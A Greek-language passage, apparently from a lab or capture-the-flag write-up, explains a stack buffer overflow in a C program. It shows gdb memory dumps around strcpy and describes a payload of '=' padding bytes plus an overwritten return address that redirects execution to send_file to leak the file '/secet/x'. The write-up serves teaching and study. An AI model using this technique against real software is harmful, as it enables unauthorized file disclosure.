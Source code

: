 
Με χρήση του gdb παρακολουθούμε την εικόνα της μνήμης πρίν και μετά την αντιγραφή του payload στο post_data buffer.

Πριν την εκτέλεση της strcpy

![memory-view-post-data](./memory-post-data-view.jpg)

Mετά την εκτέλεση της strcpy
```
(gdb) x/21xw post_data
0xffdb9a60:     0x6365732f      0x782f7465      0x3d3d3d3d      0x3d3d3d3d
0xffdb9a70:     0x3d3d3d3d      0x3d3d3d3d      0x3d3d3d3d      0x3d3d3d3d
0xffdb9a80:     0x3d3d3d3d      0x3d3d3d3d      0x3d3d3d3d      0x3d3d3d3d
0xffdb9a90:     0x3d3d3d3d      0xffdb9a60      0x3d3d3d3d      0x233c33d0
0xffdb9aa0:     0x3d3d3d3d      0x3d3d3d3d      0x3d3d3d3d      0x566081e6
0xffdb9ab0:     0xffdb9a60
```

Μετά την for loop
```
(gdb) x/21xw post_data
0xffdb9a60:     0x6365732f      0x782f7465      0x00000000      0x00000000
0xffdb9a70:     0x00000000      0x00000000      0x00000000      0x00000000
0xffdb9a80:     0x00000000      0x00000000      0xffdb9a60      0xffdb9ab4
0xffdb9a90:     0x00000000      0xffdb9a60      0x00000000      0x233c33d0
0xffdb9aa0:     0x00000000      0x00000000      0x00000000      0x566081e6
0xffdb9ab0:     0xffdb9a60
```

τότε μπορούμε να κατασκευάσουμε το payload με την παρακάτω μορφή

![memory](./five_memory.png)

Ο λόγος για τον οποίο γράψαμε το post_data buffer address μετά τα 44 "3D"
είναι διότι το πρόγραμμα κάνει χρήση του buffer αμέσως μετά την κλήση της strcpy και άρα δεν θα εμφανιστεί segmentation fault για χρήση μνήμης που δεν δικαιούται το πρόγραμμα, καθώς επίσης είναι η χρήσιμη η εκτέλεση της for loop που ακολουθεί την κλήση της strcpy, διότι θα αντικαταστήσει τα "3D" * 44 με μηδενικά το οποίο θα κάνει null terminate το string "/secet/x" που είναι και ο λόγος για τον οποίο επιλέξαμε να γράψουμε τον hex κωδικό "3D" διότι αντιστοιχεί στον ascii χαρακτήρα '='.

Αμέσως μετά το return address (κόκκινη περιοχή), γράφουμε το όρισμα της send_file, το οποίο θα είναι η διεύθυνση του string "/secet/x".
